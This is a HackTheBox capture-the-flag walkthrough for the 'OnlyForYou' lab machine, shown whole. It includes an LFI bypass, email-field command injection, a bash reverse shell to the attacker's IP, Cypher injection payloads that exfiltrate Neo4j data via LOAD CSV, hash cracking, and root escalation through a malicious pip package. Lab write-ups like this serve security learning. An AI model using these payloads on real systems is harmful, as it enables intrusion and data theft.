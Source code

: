# HackTheBox - OnlyForYou

## NMAP

```bash
Nmap scan report for 10.10.11.210
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://only4you.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 (HTTP)

Visiting the webserver, it redirects to `only4you.htb`

<img src="https://i.imgur.com/4IKRAFQ.png"/>

<img src="https://i.imgur.com/fgrurkA.png"/>
After adding the domain name we can acces the site

<img src="https://i.imgur.com/YjEZqbQ.png"/>

The site is just a template, fuzzing for files using `gobuster` doesn't yield anything 

<img src="https://i.imgur.com/MNfgI3l.png"/>

Fuzzing for sub domains reveals that there's a `beta` domain

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://only4you.htb' -H "Host: FUZZ.only4you.htb" --hh 178
```

<img src="https://i.imgur.com/RHrBGlg.png"/>

<img src="https://i.imgur.com/knw4ber.png"/>

From here we can download the source code

<img src="https://i.imgur.com/WCXLVLI.png"/>

Looking at `app.py`  we can spot LFI where it's checking if the file name starts  with `..` or with `../`  

<img src="https://i.imgur.com/Hkcg0vt.png"/>

This can be bypassed by starting the file name with `/`  and reading any local files with in the context of www-data user

```bash
curl -X POST 'http://beta.only4you.htb/download' -d "image=/etc/passwd"
```

<img src="https://i.imgur.com/w68jHvf.png"/>

We can try reading default nginx config file

<img src="https://i.imgur.com/27z1okJ.png"/>

We can read the source code of only4you.htb site

<img src="https://i.imgur.com/CGm1RBW.png"/>

It's using `sendmessage` function from `form.py`

```bash
curl -X POST 'http://beta.only4you.htb/download' -d "image=/var/www/only4you.htb/form.py"
```

<img src="https://i.imgur.com/cw73Iel.png"/>
<img src="https://i.imgur.com/1y8zhpr.png"/>

From this function we can see that it's using subprocess to run `dig txt domain (from the email`, it's using regix to validate the email part 

<img src="https://i.imgur.com/V1y9F6u.png"/>

This can be bypassed by providing the input so that it gets validates the regix and inject the command with `;` so that it runs our injection command with `dig` i.e `dig txt uwu.com; curl 10.10.14.92`

So our email parameter should be like this 

```bash
email=test@uwu.com;curl+10.10.14.92
```

<img src="https://i.imgur.com/KeycUrW.png"/>

<img src="https://i.imgur.com/EQUEle2.png"/>

Getting a shell by creating a sh script on our machine with a bash reverse shell payload, making the server download our script and executing it by piping it to bash

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.92/2222 0>&1
```

<img src="https://i.imgur.com/TSIp1ad.png"/>

Checking the local ports with `ss -tulpn`, there's port 8001 running on which there's a login page

<img src="https://i.imgur.com/Uma2EdZ.png"/>

<img src="https://i.imgur.com/eScx3w1.png"/>

With chisel we can port forward this port 

```bash
chisel client 10.10.14.92:3333 R:localhost:8001

chisel server -p 3333 --reverse
```

<img src="https://i.imgur.com/3dZ3Quw.png"/>

With default credentials, `admin:admin` we can login

<img src="https://i.imgur.com/dTX6NMx.png"/>

## Privilege Escalation (john)

From the dashboard, we can see few tasks and out of these tasks there's one about migrating database to `neo4j` which is a graph database 

<img src="https://i.imgur.com/bL45lJP.png"/>

Checking the `/employees` page we can search for an emplyoee

<img src="https://i.imgur.com/eW5VRxX.png"/>

Since it's using neo4j as from those tasks, it uses cypher query which is a query to retrieve data from graph as neo4j is a graph database 

```bash
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.92/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```

<img src="https://i.imgur.com/FPuGejB.png"/>

To list the labels from neo4j database

```bash
' OR 1=1 WITH 1 as a CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.92/?'+label AS b RETURN b//
```

This query will give us 2 labels or tables in response which is `user` and `employee`

<img src="https://i.imgur.com/btYyZXI.png"/>

Now we need to extract the property or the value from user label

```bash
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.92/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

<img src="https://i.imgur.com/L5kiaS9.png"/>

Cracking these two sha-256 hashes, we'll be able to use john's hash to switch to john user on the machine

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt --format=Raw-SHA256
```

<img src="https://i.imgur.com/kjCqrjN.png"/>

<img src="https://i.imgur.com/xh3ifgY.png"/>

From john, we can run `sudo -l` showing that pip3 can be executed as root user which will download any .tar.gz file from local port 3000 (this can be accessed through port forwarding the same way we did for port 8001, on this port there's an instance of gogs already running which like gitea or github

```bash
chisel client 10.10.14.92:3333 R:localhost:3000
```

<img src="https://i.imgur.com/hTdTNJf.png"/>

From `Explore` we see two users, admin and john, we can use john's creds to login

<img src="https://i.imgur.com/lqy46M1.png"/>

<img src="https://i.imgur.com/1HKovwh.png"/>

<img src="https://i.imgur.com/cgdEtUC.png"/>

Following this article for creating a pip package which will execute setup.py on download where you can execute commands as root user, here we can just make bash a SUID or get a reverse shell 

<img src="https://i.imgur.com/nllN27x.png"/>

<img src="https://i.imgur.com/XbF4CeU.png"/>

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/

After building the pip package, upload it to the `Test` repo

<img src="https://i.imgur.com/UoXaELC.png"/>

Go to the settings and make sure to make the repo public

<img src="https://i.imgur.com/ZpYzBdO.png"/>

Now run the command to download the pip package with sudo

```bash
sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/raw/master/exploitpy-0.0.1.tar.gz
```

<img src="https://i.imgur.com/DeJoVcb.png"/>

## References

- https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j
- https://pentester.land/blog/conf-notes-cypher-query-injection/
- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/

